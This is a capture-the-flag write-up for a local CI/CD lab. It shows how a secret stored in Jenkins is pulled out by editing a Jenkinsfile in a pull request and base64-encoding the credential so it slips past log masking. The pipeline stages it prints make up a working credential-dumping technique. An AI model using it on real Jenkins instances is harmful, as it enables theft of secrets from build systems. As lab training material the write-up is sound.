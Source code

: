 # White Rabbit

The challenge : I’m late, I’m late! No time to say ״hello, goodbye״! Before you get caught, use your access to the Wonderland/white-rabbit repository to steal the flag1 secret stored in the Jenkins credential store.

## Brainstorming

For starter, we were given credentials for :
Jenkins http://localhost:8080
Username: alice
Password: alice
Gitea http://localhost:3000
Username: thealice
Password: thealice
GitLab http://localhost:4000
Username: alice
Password: alice1234

And when we look at the challenge, it seems that the flag1 is a secret that was stored in Jenkins. Moreover, the challenge told us to use our access to the repository in gitea to do that so it might be vulnerability related to Jenkinsfile. 

## Messing with the pipeline 

First we try to change the Jenkinsfile and create a new pull request and we see that the pipeline were automatically built. It mean that we can get credentials of Jenkins through the pipeline. 
![image info](./pictures/White_Rabbit_1.png)

## Getting the credentials through Jenkins pipeline

To get the credentials through Jenkinsfile, we can add this stage to the Jenkinsfile :
```
        stage ('Looking for credentials'){
            steps{
            withCredentials([string(credentialsId: 'flag1', variable: 'SECRET')]) {
    sh '''
        env
    '''                 
} 
} 
}
```

However it seems like the secret were masked 
![image info](./pictures/White_Rabbit_2.png)

But that was not secure as state in here : https://www.jenkins.io/blog/2019/02/21/credentials-masking/

So we now know that despite being masked and cannot be print directly to the build log, the secret can be encrypt to base64 and then print that result to the build log 

![image info](./pictures/White_Rabbit_3.png)

So we change the Jenkinsfile to this to print out the base 64 of the secret : 

stage to the Jenkinsfile :
```
        stage ('Looking for credentials'){
            steps{
            withCredentials([string(credentialsId: 'flag1', variable: 'SECRET')]) {
    sh '''
        echo $SECRET | base64 
    '''                 
} 
} 
}
```

Take that base64 string and decode it and we will have the flag : 06165DF2-C047-4402-8CAB-1C8EC526C115

## Reference 
https://cloud.hacktricks.xyz/pentesting-ci-cd/jenkins-security/basic-jenkins-information
https://www.codurance.com/publications/2019/05/30/accessing-and-dumping-jenkins-credentials
https://www.jenkins.io/blog/2019/02/21/credentials-masking/